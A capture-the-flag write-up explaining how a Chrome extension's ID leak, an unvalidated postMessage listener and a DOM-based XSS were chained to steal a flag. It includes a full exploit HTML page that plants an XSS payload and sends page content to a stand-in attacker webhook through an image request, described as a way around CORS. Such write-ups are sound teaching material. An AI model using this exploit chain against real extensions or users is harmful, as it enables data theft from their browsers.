



# Hack.lu CTF 2025 - MÅRQUEE 190 Write-up



### Step 1: Initial Analysis and Vulnerability Discovery

The challenge provides the source code for a Chrome extension, "TagDeprecater," and a link to an admin bot. The goal is to craft a URL that, when visited by the bot, exploits the extension to steal a flag from a local server at `http://localhost:1337`.

An analysis of the extension's source code reveals a chain of three critical vulnerabilities:

1.  **Extension ID Leak:** In `content.js`, the script replaces deprecated HTML tags with a default string that includes an image: ````. The `chrome.runtime.getURL()` function resolves to a full path like `chrome-extension://[EXTENSION_ID]/no_entry.png`. When this is injected into the page, the page's own JavaScript can read this URL and leak the extension's unique ID.

2.  **Insecure Message Listener:** The `popup.js` script sets up a message listener with `window.addEventListener("message", ...)`. Crucially, it does not validate the origin of incoming messages. This allows any website to embed the `popup.html` page in an `iframe` and send it malicious commands via `postMessage`.

3.  **DOM-based XSS:** The core logic in `content.js` uses `el.outerHTML = replacementString` to replace tags. Since we can control the `replacementString` by exploiting the insecure message listener, we can inject arbitrary HTML and JavaScript into any page the bot visits. This is a classic DOM-based XSS vulnerability.

### Step 2: Crafting the Three-Stage Exploit

The exploit will be a single HTML page that executes the attack in three sequential stages.

*   **Stage 1: Leak the Extension ID.** The page contains a deprecated `<marquee>` tag. A `MutationObserver` is used to watch the DOM. When the extension replaces the tag, the observer captures the newly added `` element and extracts the extension ID from its `src` attribute.

*   **Stage 2: Hijack the Replacement String.** With the ID, we create a hidden `iframe` pointing to the extension's `popup.html` page (`chrome-extension://[ID]/popup.html`). Once loaded, we send a `postMessage` to the `iframe` with a `SET` command, overwriting the `replacementString` in `chrome.storage.sync` with our malicious XSS payload.

*   **Stage 3: Trigger XSS and Exfiltrate the Flag.** After setting the payload, we redirect the bot to the flag page at `http://localhost:1337`. The extension activates on that page, replacing its `<marquee>` tag with our payload. The payload's JavaScript then executes, fetches the page content again to get the flag, and sends it to our external server.

### Step 3: Overcoming Final Hurdles (CORS and Hosting)

During local testing, two final issues were identified and solved:

1.  **CORS Policy:** The initial payload used `fetch()` to send the flag to our webhook, which was blocked by the browser's CORS policy. The fix was to use a technique that bypasses CORS: creating a new image element and setting its source to our webhook URL with the flag appended as a query parameter (`new Image().src = ...`). Browser image requests are not blocked by CORS in the same way.

2.  **Exploit Hosting:** Simple hosting solutions like `htmlpreview.github.io` were not suitable because they serve content inside a sandboxed `<iframe>`, which restricts critical functions like cross-origin redirection and `iframe` creation. The solution was to use a direct file hosting service. **Netlify Drop** (`https://app.netlify.com/drop`) was perfect for this, as it provides a clean, unrestricted public URL for a single HTML file.

### Step 4: Final Exploit and Execution

The following clean, comment-free code was hosted on Netlify.

#### `exp.html`
```html
<!DOCTYPE html>
<html>
<head>
    <title>Exploit</title>
</head>
<body>
    <h1>Exploiting...</h1>
    <marquee id="leaker"></marquee>
    <script>
        const ATTACKER_SERVER = "https://webhook.site/your-id";

        const observer = new MutationObserver((mutations, obs) => {
            for (const mutation of mutations) {
                for (const node of mutation.addedNodes) {
                    if (node.tagName === 'IMG' && node.src && node.src.startsWith('chrome-extension://')) {
                        const extensionUrl = new URL(node.src);
                        const extensionId = extensionUrl.hostname;
                        obs.disconnect();
                        setMaliciousPayload(extensionId);
                        return;
                    }
                }
            }
        });

        observer.observe(document.body, { childList: true, subtree: true });

        function setMaliciousPayload(extensionId) {
            const iframe = document.createElement('iframe');
            iframe.src = `chrome-extension://${extensionId}/popup.html`;
            iframe.style.display = "none";
            iframe.onload = () => {
                const payload = `r.text()).then(d=>{ new Image().src='${ATTACKER_SERVER}/?flag='+encodeURIComponent(d); })">`;
                iframe.contentWindow.postMessage({ type: "SET", replacementString: payload }, '*');
                setTimeout(() => { window.location.href = "http://localhost:1337"; }, 1500);
            };
            document.body.appendChild(iframe);
        }
    </script>
</body>
</html>
```

This file was hosted on Netlify, providing the final URL for the bot:
`https://your.app/exp.html`

Submitting this URL to the admin bot successfully triggered the exploit chain.



A few seconds later, the flag arrived at our webhook endpoint.



### Flag
`flag{extension_rebellion_v3}`